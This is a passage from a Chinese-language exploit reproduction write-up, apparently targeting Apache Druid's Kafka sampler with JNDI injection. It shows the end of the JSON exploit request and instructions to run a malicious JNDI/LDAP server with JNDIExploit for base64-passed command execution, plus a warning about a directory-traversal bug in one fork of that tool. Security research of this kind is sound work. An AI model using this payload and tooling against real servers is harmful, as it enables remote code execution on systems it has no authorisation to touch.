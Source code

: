 ```plain
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

我们通过`JNDIExploit-SNAPSHOT.jar`启动一个恶意 jndi 服务器，然后将 exp 中的 ldap 地址进行替换

`JNDIExploit`建议使用原版仓库自行编译或者下载`releases`

`WhiteHSBG`师傅改版的`JNDIExploit`在`1.4`版本中存在目录穿越漏洞，各位师傅如果有使用的要注意这个问题避免被反制：

[https://github.com/WhiteHSBG/JNDIExploit/issues/10](https://github.com/WhiteHSBG/JNDIExploit/issues/10)

这里也不建议使用`yakit`自带的`Yso-Java Hack`反连，笔者在使用它复现的时候一直没打成功，可能是 mac arm 架构下的 bug 也不一定？

exp 中使用的是`JNDIExploit`提供的基础命令执行的 base64 传递方式

[![](assets/1708677570-992d1e87421476eab4779a0b3bcc9380.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220191016899.png)

